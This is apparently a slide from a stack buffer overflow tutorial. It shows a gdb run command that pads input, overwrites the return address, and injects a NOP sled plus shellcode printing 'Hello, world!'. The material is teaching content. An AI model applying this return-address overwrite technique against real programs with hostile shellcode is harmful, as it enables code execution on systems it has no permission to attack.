

# Step 5: Overwrite the return address with our code
Therefore, our new command becomes

run < <(python -c 'print "a"*56 + "\x00\xf7\xff\xbf" + "\x90"*30 + "\xeb\x13\x59\x31\xc0\xb0\x04\x31\xdb\x43\x31\xd2\xb2\x0f\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe8\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a\x0d"')